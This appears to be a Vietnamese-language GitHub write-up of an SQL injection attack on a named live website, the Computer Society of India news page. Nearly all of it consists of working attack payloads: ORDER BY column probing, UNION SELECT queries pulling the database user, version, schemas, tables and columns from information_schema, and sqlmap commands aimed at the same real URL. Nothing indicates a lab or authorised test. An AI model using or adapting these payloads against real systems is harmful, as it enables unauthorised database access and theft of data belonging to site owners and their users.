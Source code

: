# TỔNG QUAN # 

Kiểm tra trên web "Computer Society of India" `https://csi-india.org/news/index.php?id=18`

![image](https://github.com/user-attachments/assets/089b7ff5-3f94-4575-a9ee-1e0876ec59a3)

## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, version, user](#kiểm-tra-database-version-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

`https://csi-india.org/news/index.php?id=18+ORDER+BY+1`

![image](https://github.com/user-attachments/assets/1db5d0ae-72f2-432c-abeb-fb572dd2c1ea)

=> Số cột lớn hơn 1

`https://csi-india.org/news/index.php?id=18+ORDER+BY+10`

![image](https://github.com/user-attachments/assets/84374454-20c5-4db2-a2c6-23d905c49bcf)

=> Số cột bé hơn 10

`https://csi-india.org/news/index.php?id=18+ORDER+BY+8`

![image](https://github.com/user-attachments/assets/cccfee89-cf9f-4c3a-be8a-fc30af8329e1)

=> Số cột là 8    
## Kiểm tra database, version, user 

**1. User**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,user(),5,6,7,8`

![image](https://github.com/user-attachments/assets/75227e5b-953a-48dd-a56a-c49d4b1b8725)

**2. Version**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,version(),5,6,7,8`

![image](https://github.com/user-attachments/assets/e623bf1a-727f-4a23-b0a4-2b80b280a6cb)

**3. Database**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,database(),5,6,7,8`

![image](https://github.com/user-attachments/assets/12a78158-d713-44f4-add8-74f6ae91d9fa)

## Trích xuất cơ sở dữ liệu

**1. Liệt kê các database**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,group_concat(0x7c,schema_name,0x7c),5,6,7,8+from+information_schema.schemata`

![image](https://github.com/user-attachments/assets/5780aae7-dc2c-482a-aea2-d3aa8ae689f1)

**2. Liệt kê các bảng**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,group_concat(0x7c,table_name,0x7c),5,6,7,8+from+information_schema.tables+where+table_schema='csiindia_portal'`

![image](https://github.com/user-attachments/assets/182e61f9-cd2a-41c6-850b-e4eb2154eecf)

**3. Liệt kê các cột trong bảng**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,group_concat(0x7c,column_name,0x7c),5,6,7,8+from+information_schema.columns+where+table_name='category'`

![image](https://github.com/user-attachments/assets/5af91210-33b2-48bd-82c6-bb20f117567b)

**4. Trích xuất dữ liệu bất kì**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,cat_name,5,6,7,8+from+category`

![image](https://github.com/user-attachments/assets/bd7fcad5-1cec-4fb6-b54d-4b3411818224)

## Sử dụng `sqlmap`

**1. Trích xuất database:**

`sqlmap -u https://csi-india.org/news/index.php?id=18 --dbs`

![image](https://github.com/user-attachments/assets/9eb20627-fe43-4f2d-a951-70ad997a8b40)

**2. Lấy các bảng trong database**

`sqlmap -u https://csi-india.org/news/index.php?id=18 --D csiindia_portal --tables`

![image](https://github.com/user-attachments/assets/5175361d-dbfc-4e58-816b-a83455ffbf2f)

**3. Lấy các cột trong bảng**

`sqlmap -u https://csi-india.org/news/index.php?id=18 --D csiindia_portal -T category,menu,news --columns`

![image](https://github.com/user-attachments/assets/e6f0927a-96ea-4981-8369-1ce2c3304d79)



